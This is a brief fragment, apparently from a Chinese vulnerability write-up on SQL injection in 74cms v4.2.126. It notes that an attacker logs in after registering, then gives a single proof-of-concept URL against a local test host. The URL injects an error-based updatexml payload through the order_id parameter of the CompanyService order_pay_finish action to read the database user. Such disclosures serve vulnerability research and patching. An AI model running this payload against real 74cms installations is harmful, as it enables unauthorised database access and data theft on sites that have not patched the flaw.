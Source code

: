 ![](resource/74cmsv4.2.126-前台四处sql注入/media/rId54.png)

注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a
